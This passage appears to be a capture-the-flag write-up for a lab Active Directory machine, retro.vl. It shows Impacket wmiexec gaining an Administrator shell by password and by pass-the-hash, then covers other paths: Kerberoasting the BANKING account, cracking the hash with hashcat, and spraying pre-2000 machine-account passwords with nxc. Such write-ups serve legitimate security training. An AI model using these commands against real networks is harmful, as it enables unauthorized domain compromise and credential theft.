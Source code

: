 ```bash
wmiexec.py Administrator:'password1234$'@$(<machine) 
```

### Root flag
```
wmiexec.py Administrator@$(<machine) -hashes :$(<hash)
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>type C:\Users\Administrator\Desktop\root.txt
VL{********************************}
```
*Note:* This machine does not have a `user.txt` flag.



# Other paths
In case the `trainee` account did not exist the machine could still be compromised.

## A - Get password via Kerberoasting
It's possible to kerberoast the banking account via the guest account.
```bash
GetUserSPNs.py -usersfile users.txt -no-pass retro.vl/Guest
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

Password: [empty]
[-] CCache file is not found. Skipping...
[-] Principal: trainee - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$23$*BANKING$$RETRO.VL$BANKING$*$[...]
```

```bash
hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -O
hashcat (v6.2.5) starting

[...]

$krb5tgs$23$*BANKING$$RETRO.VL$BANKING$*$[...]:banking
```
## B - Password Brute forcing
We can also attempt to just bruteforce pre2k users;
```bash {hl_lines=[6]}
grep '\$' users.txt > pre2kusers.txt
cat pre2kusers.txt | tr '[:upper:]' '[:lower:]' | sed 's/.$//' | tee pre2kpasswords.txt
nxc smb domain -u pre2kusers.txt -p pre2kpasswords.txt --no-bruteforce --continue-on-success
SMB 10.10.81.124    [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB 10.10.81.124    [-] retro.vl\DC$:dc STATUS_LOGON_FAILURE 
SMB 10.10.81.124    [-] retro.vl\BANKING$:banking STATUS_NOLOGON_WORKSTATION_TRUST_ACCOUNT 
```
